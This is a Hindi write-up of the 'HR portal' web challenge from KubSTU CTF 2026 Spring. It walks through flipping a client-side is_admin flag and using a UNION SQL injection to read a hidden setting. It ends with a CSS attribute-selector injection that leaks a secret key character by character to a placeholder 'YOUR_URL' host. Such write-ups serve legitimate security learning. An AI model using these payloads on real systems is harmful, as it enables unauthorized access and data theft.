

# [web] HR portal

> **श्रेणी:** `web`  
> **CTF:** KubSTU CTF 2026 Spring

### विवरण 

 सभी विशेषज्ञ जानते हैं: कंपनी में मुख्य — डायरेक्टर नहीं, बल्कि HR होता है। वही भाग्य तय करता है और वांछित ऑफर लेटर देता है। हमारे नए पोर्टल की जाँच करें और HR-मैनेजर के रहस्य उजागर करें।  

### Writeup

1. रजिस्ट्रेशन करते हैं और पोर्टल में लॉगिन करते हैं
2. JS या रिक्वेस्ट देखते हैं

एक रिक्वेस्ट — api/user-info, जो उपयोगकर्ता के अधिकारों के लिए ज़िम्मेदार है। लेकिन सुरक्षा केवल क्लाइंट साइड पर लागू है। इसलिए इसे विभिन्न तरीकों से बायपास किया जा सकता है। 
सबसे सरल, रिस्पॉन्स में is_admin का मान 0 से 1 में बदल दें

 

 

हमें दो नए बटन दिखते हैं

 

Get Promotion में सीक्रेट डालने और फ़्लैग प्राप्त करने का अंतिम फ़ॉर्म है
साथ ही पेज के कोड में भविष्य के CSS payload बनाने के लिए एक छोटा हिंट है

 

दूसरे बटन Open Admin Panel में सेटिंग्स की खोज है, जो SQLi के लिए कमज़ोर है

 

SQL इंजेक्शन की मदद से एट्रीब्यूट का मान निकालते हैं, जो CSS इंजेक्शन बनाने के लिए भी चाहिए

  `' UNION SELECT setting_value FROM admin_settings WHERE setting_name='secret_field_name' -- -`  

 

अंत में लगभग ऐसा पेलोड मिलता है
 
 `.admin-secret-key[data-hr_secret_key_f5g4^="A"] { background-image: url("http://YOUR_URL?char=A" ); }`  

 

इसके बाद फ़्लैग प्राप्त करने के लिए कुंजी का उपयोग करते हैं

 

